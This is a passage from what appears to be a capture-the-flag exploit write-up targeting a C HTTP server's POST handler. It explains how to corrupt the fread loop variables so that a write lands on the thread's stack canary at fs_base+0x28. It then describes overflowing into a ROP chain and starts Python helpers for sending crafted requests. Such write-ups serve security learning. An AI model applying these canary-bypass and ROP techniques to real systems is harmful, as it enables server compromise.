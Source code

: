 Lets get back to the `post` code : 

```c
while(off < size) {
    size_t r = fread(body + off, 1, size - off, fp);

    // EOF ?
    if(0 == r)
        return false;

    off += r;
}
```



Our goal is to have a second `fread` call with the following parameters : 

```c
fread(fs_base + 0x28, 1, 0x8, fp)
```

We have to overwrite the following fields : 

- `file_fd` => restore previous opened `FILE` descriptor
  - `file_fd` is allocated on the thread's heap via `fopen`, and is at a constant offset
- `off` => `0`
-  `count` => `r + 8` (qword size), we need to add `r` as `off += r` is called at the end of the loop 

We can get `r` by getting back the return value of the first `fread` within GDB. For some reasons, this value is equal to `0xfd1` with the request I tried.

> I think this is because the max buffer size of a buffered file descriptor is `0x1000`  and the input buffer is already filled with request headers data.
>
> In this case, the headers data were len `0x2f`, as `0xfd1` + `0x2f` = `0x1000`



We will then send a bunch of `B`s to first overwrite the canary value and then exits the loop as in the third `fread` call, `off` will be `> size`, then the function would return into our ROP chain !



### :writing_hand: Writing the exploit

Now that we have all that we need to exploit the vulnerabilities, let's write some utility functions :

```py
def make_http_header(verb, path, headers):
    req = "{} {} HTTP/1.1\r\n".format(verb, path).encode()
    for k, v in headers.items():
        req += "{}: {}\r\n".format(k, v).encode()
    req += b"\r\n"
    return req

def send_http_post(path, headers, body=b""):
    req = make_http_header("POST", path, headers)
    req += body
    r.send(req)

def send_http_get(path, headers):
    req = make_http_header("GET", path, headers)
    r.send(req)
```

